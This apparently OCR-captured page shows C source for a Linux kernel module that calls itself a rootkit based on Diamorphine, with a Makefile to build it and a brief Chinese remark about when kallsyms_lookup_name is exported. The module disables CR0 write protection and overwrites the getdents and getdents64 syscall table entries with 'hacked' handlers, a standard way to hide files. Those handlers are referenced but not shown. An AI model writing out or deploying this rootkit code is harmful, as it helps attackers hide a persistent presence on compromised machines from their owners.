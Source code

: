 ```c
static inline void write_cr0_forced(unsigned long val)
{
  unsigned long __force_order;
  asm volatile(
    "mov %0, %%cr0"
    : "+r"(val), "+m"(__force_order));
}

static inline void protect_memory(void)
{
  write_cr0_forced(cr0);
}
static inline void unprotect_memory(void)
{
  write_cr0_forced(cr0 & ~0x00010000);
}

static int __init lkmdemo_init(void)
{
  __sys_call_table = get_syscall_table_bf();
  if (!__sys_call_table)
    return -1;
  cr0 = read_cr0();
  orig_getdents = (t_syscall)__sys_call_table[__NR_getdents];
  orig_getdents64 = (t_syscall)__sys_call_table[__NR_getdents64];
  unprotect_memory();
  __sys_call_table[__NR_getdents] = (unsigned long) hacked_getdents;
  __sys_call_table[__NR_getdents64] = (unsigned long) hacked_getdents64;
  protect_memory();
  return 0;
}

static void __exit lkmdemo_cleanup(void)
{
  unprotect_memory();
  __sys_call_table[__NR_getdents] = (unsigned long) orig_getdents;
  __sys_call_table[__NR_getdents64] = (unsigned long) orig_getdents64;
  protect_memory();
}

module_init(lkmdemo_init);
module_exit(lkmdemo_cleanup);

MODULE_LICENSE("Dual BSD/GPL");
MODULE_AUTHOR("demo");
MODULE_DESCRIPTION("LKM rootkit based on diamorphine");
```

```makefile
obj-m := lkmdemo.o
CC = gcc -Wall 
KDIR := /lib/modules/$(shell uname -r)/build
PWD := $(shell pwd)

all:
	$(MAKE) -C $(KDIR) M=$(PWD) modules

clean:
	$(MAKE) -C $(KDIR) M=$(PWD) clean
```

在 Linux 内核版本 2.6.33 到 5.7.0 之间，kallsyms_lookup_name 被导出，可以直接使用。但是，在内核版本 5.7 之后，这个函数不再被导出



